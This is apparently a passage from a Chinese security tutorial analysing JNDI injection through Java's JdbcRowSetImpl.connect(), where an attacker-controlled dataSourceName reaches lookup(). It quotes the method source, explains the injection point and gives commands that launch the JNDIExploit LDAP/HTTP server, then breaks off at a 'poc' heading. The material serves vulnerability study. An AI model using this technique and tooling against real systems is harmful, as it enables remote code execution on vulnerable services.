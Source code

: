 跟下connect();

+ `<font style="background-color:rgb(247, 247, 247);">JdbcRowSetImpl.connect</font>`

```plain
private Connection connect() throws SQLException {
        if (this.conn != null) {
            return this.conn;
        } else if (this.getDataSourceName() != null) {
            try {
                InitialContext var1 = new InitialContext();
                DataSource var2 = (DataSource)var1.lookup(this.getDataSourceName());
                return this.getUsername() != null && !this.getUsername().equals("") ? var2.getConnection(this.getUsername(), this.getPassword()) : var2.getConnection();
            } catch (NamingException var3) {
                throw new SQLException(this.resBundle.handleGetObject("jdbcrowsetimpl.connect").toString());
            }
        } else {
            return this.getUrl() != null ? DriverManager.getConnection(this.getUrl(), this.getUsername(), this.getPassword()) : null;
        }
    }
```

主要是

```plain
DataSource var2 = (DataSource)var1.lookup(this.getDataSourceName());
```

把datasource给lookup了

<font style="color:rgb(51, 51, 51);">可以看到这里有JNDI注入中的</font>`<font style="color:rgb(51, 51, 51);background-color:rgb(247, 247, 247);">lookup</font>`<font style="color:rgb(51, 51, 51);">的调用，而调用的参数就是刚才设置的</font>`<font style="color:rgb(51, 51, 51);background-color:rgb(247, 247, 247);">dataSource</font>`<font style="color:rgb(51, 51, 51);">，这个是我们可以控制的，如果让他加载恶意的</font>`<font style="color:rgb(51, 51, 51);background-color:rgb(247, 247, 247);">Reference类</font>`<font style="color:rgb(51, 51, 51);">，那么我们的目的就达成了</font>

#### <font style="color:rgb(51, 51, 51);">复现</font>
<font style="color:rgb(51, 51, 51);">直接用</font>[<font style="color:rgb(231, 76, 60);">JNDIExploit</font>](https://github.com/feihong-cs/JNDIExploit.git)<font style="color:rgb(51, 51, 51);">同时启动</font>`<font style="color:rgb(51, 51, 51);background-color:rgb(247, 247, 247);">ldap</font>`<font style="color:rgb(51, 51, 51);">和</font>`<font style="color:rgb(51, 51, 51);background-color:rgb(247, 247, 247);">http</font>`<font style="color:rgb(51, 51, 51);">服务，好处就是不需要自己手动编译class什么的了</font>

```plain
# 查看用法
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 127.0.0.1 -l 9999 -p 8888 -u
# 启动服务
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 127.0.0.1 -l 9999 -p 8888
```

<font style="color:rgb(51, 51, 51);">poc</font>
